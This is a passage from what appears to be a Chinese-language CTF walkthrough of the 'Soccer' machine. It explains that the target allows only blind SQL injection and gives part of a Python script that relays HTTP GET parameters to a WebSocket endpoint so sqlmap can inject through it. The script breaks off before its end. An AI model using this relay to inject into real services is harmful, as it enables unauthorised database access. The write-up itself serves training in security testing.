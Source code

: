 ![image-20250319150928732](./././././././././././Soccer/image-20250319150928732.png)

![image-20250319151016500](./././././././././././Soccer/image-20250319151016500.png)

没有返回sql语句，只能进行盲注

#### python脚本转发Websocket,使用Sqlmap注入

原贴：

```
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

该脚本将在8081端口上创建一个HTTP服务并获取GET参数值，将该参数值转换为json，然后与websocket服务器创建连接然后发送

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

```
